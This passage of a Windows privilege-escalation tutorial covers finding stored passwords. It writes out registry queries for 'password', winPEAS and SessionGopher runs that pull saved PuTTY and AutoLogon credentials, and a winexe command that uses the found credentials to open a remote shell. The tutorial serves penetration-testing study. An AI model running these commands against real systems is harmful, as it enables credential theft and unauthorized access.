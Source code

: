 The following commands will search the registry for keys and  
values that contain “password”

```bash
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
REG QUERY HKLM /F "password" /t REG_SZ /S /d
REG QUERY HKCU /F "password" /t REG_SZ /S /d
```

This usually generates a lot of results, so often it is more fruitful to look in known locations.

1.Use winPEAS to check common password locations:  
`.\winPEASany.exe quiet filesinfo userinfo`

> (the final checks will take a long time to complete)  
> [+] Putty Sessions()  
> SessionName: BWP123F42  
> ProxyPassword: password123  
> ProxyUsername: admin

2.The results show both AutoLogon credentials and Putty  
session credentials for the admin user  
(admin/password123).

3.We can verify these manually:  
`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`  
`reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s`

4.On Kali, we can use the winexe command to spawn a shell using these credentials:  
`winexe -U 'admin%password123' //192.168.1.22 cmd.exe`

### Tools that search for passwords

[**MSF-Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **is a msf** plugin I have created this plugin to **automatically execute every metasploit POST module that searches for credentials** inside the victim.  
[**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) automatically search for all the files containing passwords mentioned in this page.  
[**Lazagne**](https://github.com/AlessandroZ/LaZagne) is another great tool to extract password from a system.

The tool [**SessionGopher**](https://github.com/Arvanaghi/SessionGopher) search for **sessions**, **usernames** and **passwords** of several tools that save this data in clear text (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

```bash
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -Thorough
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
